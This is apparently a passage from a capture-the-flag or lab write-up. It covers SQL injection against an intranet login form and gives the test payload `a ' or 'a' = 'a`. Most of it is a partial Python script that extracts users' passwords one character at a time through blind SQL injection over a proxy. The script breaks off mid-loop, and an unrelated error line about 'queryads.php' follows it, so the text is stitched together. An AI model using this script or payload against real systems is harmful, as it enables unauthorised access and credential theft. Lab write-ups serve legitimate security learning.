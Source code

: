 ![](/assets/img/8-user-enumeration.png)

I entered a standard test for SQL injection `a ' or 'a' = 'a` in both the username and password field and my first try got a list of users. Only the username field was vulnerable to this

searched for how to use hydra with a proxy - [https://forums.kali.org/showthread.php?18055-Hydra-using-Proxy](https://forums.kali.org/showthread.php?18055-Hydra-using-Proxy)

[https://stackoverflow.com/questions/517127/how-do-i-write-output-in-same-place-on-the-console](https://stackoverflow.com/questions/517127/how-do-i-write-output-in-same-place-on-the-console)

```python
import requests
import string

#URL to connect to
url = 'http://172.31.179.1/intranet.php'
#URL of connection proxy
proxy_url = 'http://10.10.10.200:3128'
#list of users to get passwords for
userlist = ['rita','jim','bryan','sarah']

def pass_brute(users):
    for user in users:
        print('\nGetting password for user: {0}'.format(user))

        data = {'Username': '', 'Password': "' or Username='" + user + "' and substring(Password,0,1)='x"}
        request = requests.post(url, data=data, proxies={'http':proxy_url})
        req_len = len(request.text)

        password = ''
        print('[+] Enumerating password: ', sep="", end="", flush=True)

        #Will test for passwords up to length 24. Edit this range for longer passwords
        for i in range(1,24):
            found = False
            for char in string.printable:

                #Print each character cycling through each guess and stopping when selected
                #can also be done with sys.stdout, for print() use end='\b' (backspace - for single characters only)
                print('{0}'.format(char), end="\b", flush=True)
```

[ERROR]: Unable to parse results from <i>queryads.php</i>: <code>Unhandled error message (<code>Invalid domain!</code>)</code>
